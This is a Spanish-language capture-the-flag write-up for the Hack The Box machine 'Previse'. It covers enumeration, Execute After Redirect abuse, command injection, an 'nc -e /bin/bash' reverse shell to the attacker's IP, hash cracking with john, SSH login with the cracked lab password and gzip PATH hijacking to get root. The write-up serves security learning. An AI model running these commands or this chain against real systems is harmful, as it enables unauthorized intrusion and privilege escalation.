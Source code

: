 ```yaml
---
title: Previse
published: true
categories: [Linux,Easy]
tags: [Web explotation, EAR, MySQL explotation, Path Hijacking]
author: Kripteria
image:
  path: https://user-images.githubusercontent.com/55555187/182441122-946b99b9-c0c0-45c6-91a7-c5d9dd9de9ae.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


Previse es una <font color="#98E256">máquina Easy</font> de temática <font color="#D35400">Linux</font> en la que se toca EAR (Execute After Redirect) para crear un usuario válido en la web, OS Command Injection, lectura de credenciales válidas, explotación del servicio MySQL y Path Hijacking sobre el binario gzip.

## Reconocimiento y explotación

```bash
nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.11.104
```

![2022-07-31-12-15-56-image](https://user-images.githubusercontent.com/55555187/182440309-876ebe38-848f-4615-baa6-18f502983e1b.png)

```bash
nmap -sVC -p22,80 -oN portSV 10.10.11.104
```

![2022-07-31-12-16-49-image](https://user-images.githubusercontent.com/55555187/182440302-f2c19ee1-f2c6-4687-b60b-bf2a9ea5b690.png)

Me meto en la web y observo que los recursos tienen extensión .php, inicio un fuzzing para intentar enumerar información.

```bash
wfuzz -c --hc=404 -t 200 -H "User-Agent: Mozilla/5.0 (Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0" -w /usr/share/secLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.104/FUZZ
```

![2022-07-31-12-23-39-image](https://user-images.githubusercontent.com/55555187/182440301-27f98e4c-c527-4d97-97a8-673f2833daca.png)

De los resultados del fuzzing puedo sacar una serie de conclusiones:

1. Hay un config.php accesible (pero al ser php se interpreta y no vemos nada) que tendrá seguramente credenciales

2. Se producen muchas redirecciones lo que me indica que se comprueba si el usuario que hace la request es válido o no

Para terminar la enumeración inicial que siempre hago, intento buscar subdominios en la web Pero no encuentro ninguno.

```bash
wfuzz -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://10.10.11.104' -H "Host: FUZZ.10.10.11.104/" -H "User-Agent: Mozilla/5.0 (Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
```

Compruebo si *login.php* es vulnerable a SQLi pero no lo es. 

Revisando los recursos que me han dado 200 ok encuentro que en nav.php tengo acceso hacia los recursos que dan 302 aunque me siguen redirigiendo al login.

![2022-07-31-12-37-26-image](https://user-images.githubusercontent.com/55555187/182440299-2eca191a-d9f3-4694-a22f-98a10ac956f0.png)

Revisando las peticiones en el burp logro ver el panel de administración para la creación de usuarios:

![2022-07-31-12-52-20-image](https://user-images.githubusercontent.com/55555187/182440297-a73a88c0-16b0-44f3-b03f-909775492b49.png)

Lo que me hace pensar que aunque luego me redirija al login, puedo enviar una petición y crearme un usuario.

Cambio el método a POST y creo un usuario aportando los argumentos necesarios viendo los ids del formulario en la petición GET, lanzo la petición, me logueo como el usuario que acabo de crear y estoy dentro:

![2022-07-31-12-57-48-image](https://user-images.githubusercontent.com/55555187/182440290-9cfa041a-05d9-42a1-b879-870fc7d25394.png)

Una vez que tengo un usuario válido ya puedo ver las páginas que antes daban 302.

En *files.php* hay un zip con un backup del sitio por lo que me lo descargo y reviso su contenido.

![2022-07-31-12-58-40-image](https://user-images.githubusercontent.com/55555187/182440289-8b27d998-1445-4ac4-ba5f-42b2013192ff.png)

En el backup puedo ver el contenido de *config.php* obteniendo credenciales:

![2022-07-31-13-00-02-image](https://user-images.githubusercontent.com/55555187/182440287-3d938954-a67f-40bc-8d07-48e89b80f77b.png)

Como está SSH abierto pruebo por si hubiese reutilización de credenciales pero no es el caso.

En *file.php* también puedo subir ficheros lo que podría dar lugar a una *subida insegura de ficheros*.

Compruebo que puedo subir archivos php pero no hay un enlace para ver el contenido del fichero, solo para descargarlo por lo que no podría aprovecharme de esto.

Revisando los archivos de backup veo que en *logs.php* se está ejecutando **exec** y que se le pasa el **parámetro delim** sin sanitizar lo que pueda dar lugar a **RCE**.

![2022-07-31-13-28-52-image](https://user-images.githubusercontent.com/55555187/182440283-8af1140e-363f-4ed5-b4ca-9566b5076c1a.png)

Intento ver si puedo obtener por pantalla el output de algún comando para confirmar el RCE pero no obtengo nada.

Pruebo a hacer una comprobación levantando un servidor HTTP y realizando una petición contra él, obteniendo una respuesta y confirmando el RCE:

![2022-07-31-13-46-24-image](https://user-images.githubusercontent.com/55555187/182440280-6d682613-8507-412c-ab05-3f54c507d9fa.png)

Me entablo una reverse shell:

```bash
nc -e /bin/bash 10.10.14.3 443
```

![2022-07-31-13-46-36-image](https://user-images.githubusercontent.com/55555187/182440279-05503994-0c33-4b33-8a42-85837fcac550.png)

Hago un tratamiento de la TTY

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset
xterm
export SHELL=bash
export TERM=xterm
```

## Escalada de privilegios

Una vez dentro hago un reconocimiento básico:

1. Existe el usuario m4lwhere en el sistema

2. Tenemos también una contraseña de *MySQL* del archivo *config.php*

3. No podemos ejecutar sudo en ningún contexto

4. En */opt/scripts* hay un archivo de root que al parecer se ejecuta en una tarea cron: 

![2022-07-31-18-21-21-image](https://user-images.githubusercontent.com/55555187/182440276-49c9bada-5020-4454-ab52-9c99967ee47f.png)

Teniendo credenciales para *MySQL*, trato de conectarme al servicio:

![2022-07-31-18-29-34-image](https://user-images.githubusercontent.com/55555187/182440274-2f0d460c-fbfe-4425-b376-6072861d5239.png)

Accedo al contenido de la base de datos *previse* y obtengo el hash de la contraseña del usuario *m4lwhere*:

![2022-07-31-18-30-31-image](https://user-images.githubusercontent.com/55555187/182440271-53674d02-a24f-46f2-aebe-7ea7beac0357.png)

Revisando *accounts.php* podemos ver como se ha creado este hash:

![2022-07-31-18-33-47-image](https://user-images.githubusercontent.com/55555187/182440269-412150c1-4ee2-4d35-9cf0-b531ba334320.png)

También buscando en internet podemos ver que <span>*$*</span>*1$* hace referencia a  *MD5*.

Listando los formatos de *john *podemos ver que existe el formato md5crypt que se ajusta a lo que hemos observado:

![2022-07-31-18-58-21-image](https://user-images.githubusercontent.com/55555187/182440266-37addc94-1e55-4961-b8a3-de4f975da23f.png)

```bash
john -format=md5crypt -wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![2022-07-31-19-07-43-image](https://user-images.githubusercontent.com/55555187/182440265-0a9268f3-396f-4a10-9e27-cbd2574e14e8.png)

Compruebo que la contraseña obtenida pertenezca a *m4lwhere*:

![2022-07-31-19-08-15-image](https://user-images.githubusercontent.com/55555187/182440262-be1a2bff-8b05-4466-8ecf-7187850f1bdd.png)

Aprovechando que el servicio *SSH* está abierto en la máquina, me logueo como m4lwhere a través de él.

```bash
sshpass -p 'ilovecody112235' ssh m4lwhere@10.10.11.104
```

![2022-07-31-19-11-36-image](https://user-images.githubusercontent.com/55555187/182440260-c75fc6af-e70e-443a-ab06-a0250bfc8a93.png)

Una vez dentro, busco archivos pertenecientes al grupo *m4lwhere* y encuentro uno que me llama la atención:

![2022-07-31-19-15-49-image](https://user-images.githubusercontent.com/55555187/182440259-95e4a25c-eb0b-4f04-bf3a-92584921288d.png)

Pero tras revisarlo no encuentro nada útil.

Compruebo si el usuario puede ejecutar comandos como Sudo en algún contexto y descubro que puede ejecutar el archivo .sh que tenía root en /opt/scripts:

![2022-07-31-19-37-31-image](https://user-images.githubusercontent.com/55555187/182440256-363afcbd-4813-4e05-9307-61dd62176650.png)

Revisando el contenido del archivo lo primero que me llama la atención es que se esté usando *gzip* sin establecer un path absoluto lo que puede dar lugar a *path hijacking*:

![2022-07-31-19-48-51-image](https://user-images.githubusercontent.com/55555187/182440247-f059c561-4aaf-4ac4-96df-9f26b589e303.png)

Para aprovechar esta vulnerabilidad:

1. Modifico la variable de entorno PATH de tal forma que el sistema operativo busque primero en */tmp*
   
   ```bash
   export PATH=/tmp:$PATH
   ```

2. Creo un archivo *gzip* en */tmp* y le doy permisos de ejecución con *chmod +x*

3. Compruebo que la vulnerabilidad está presente haciendo que el archivo *gzip* ejecute un *curl* contra un servidor HTTP que he levantado usando Python
   
   ![2022-07-31-19-48-33-image](https://user-images.githubusercontent.com/55555187/182440250-1cb1054a-e04d-43ed-a79c-68b1f74152d3.png)

4. Una vez que compruebo que la vulnerabilidad existe, cambio el payload y lanzo una reverse shell contra mi máquina la cual me dará una sesión como root al estar lanzandose el script con permisos de Sudo
   
   ![2022-07-31-19-51-18-image](https://user-images.githubusercontent.com/55555187/182440243-8a72ff61-49e5-4677-bff3-2d918f06478d.png)
